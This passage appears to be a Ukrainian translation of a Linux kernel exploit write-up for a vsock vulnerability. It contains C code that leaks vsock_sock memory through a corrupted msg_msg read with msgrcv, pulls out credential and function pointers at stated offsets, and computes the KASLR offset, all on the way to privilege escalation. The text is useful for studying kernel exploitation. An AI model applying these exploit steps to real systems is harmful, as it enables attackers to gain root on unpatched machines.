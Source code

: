 ![](T0140baae964febb059.png "T0140baae964febb059.png")

Прочитайте вміст об’єкта ядра vsock_sock до простору користувача, отримавши повідомлення з черги повідомлень, в якому зберігається перезаписаний msg_msg:

    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

Знайдіть ціль атаки
-------------------

Ось пункти, які я знайшов: 1. Виділений кеш блоку, такий як PINGv6 та sock_inode_cache, має багато покажчиків на об'єкти 2. Покажчик struct mem_cgroup \* sk_memcg має зміщення 664 у vsock_sock.sk. Структура mem_cgroup виділена в кеш-пам’яті kmalloc-4k. 3. Вказівник власника const struct cred \* знаходиться на відстані 840 від vsock_sock.sk і зберігає адресу облікових даних, які можна перезаписати для ескалації дозволів. 4. Покажчик функції void (\* sk_write_space) (struct sock \*) знаходиться на відстані 688 від vsock_sock.sk і встановлюється на адресу функції ядра sock_def_write_space (). Він може бути використаний для розрахунку зміщення KASLR.

Ось як уразливість витягує ці вказівники з пам'яті:

    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);

        owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
                owner_cred, OWNER_CRED_RD_LOCATION);

        sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
                sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

        kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
        printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);

Впровадити Use-after-free на sk_buff
-------------------------------------
